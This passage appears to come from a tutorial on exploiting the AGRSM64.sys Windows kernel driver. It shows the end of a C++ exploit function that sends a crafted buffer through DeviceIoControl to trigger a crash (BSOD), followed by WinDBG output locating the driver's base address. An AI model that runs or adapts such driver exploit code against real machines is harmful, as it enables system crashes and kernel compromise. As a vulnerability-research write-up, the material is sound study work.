 ```c++

    // Send payload to the driver

    printf("[+] Wait 2 seconds for BSOD ...\n");
    Sleep(2000);

    BOOL status = DeviceIoControl(
        drvHandle,
        IOCTL_CODE,
        buf,
        sizeof(buf),
        NULL,
        0,
        &lpBytesReturned,
        NULL
        );
}

int main(int argc, char* argv[]) {

    exploit();

    printf("[+] we never get here. \n");
    return 0;
}
```

In WinDBG we can get our target drivers base address:

```
2: kd> .reload
Connected to Windows 10 22621 x64 target at (Mon Oct  9 17:22:33.761 2023 (UTC + 2:00)), ptr64 TRUE
Loading Kernel Symbols
...............................................................
................................................................
..............................................
Loading User Symbols

Loading unloaded module list
...........
2: kd> lm Dvm AGRSM64
Browse full module list
start             end                 module name
fffff803`2b430000 fffff803`2b562000   AGRSM64    (deferred)             
    Image path: \??\C:\Users\chris\Desktop\AGRSM64.sys
    Image name: AGRSM64.sys
    Browse all global symbols  functions  data
    Timestamp:        Thu Dec  3 22:05:51 2009 (4B18282F)
    CheckSum:         001370DF
    ImageSize:        00132000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
```
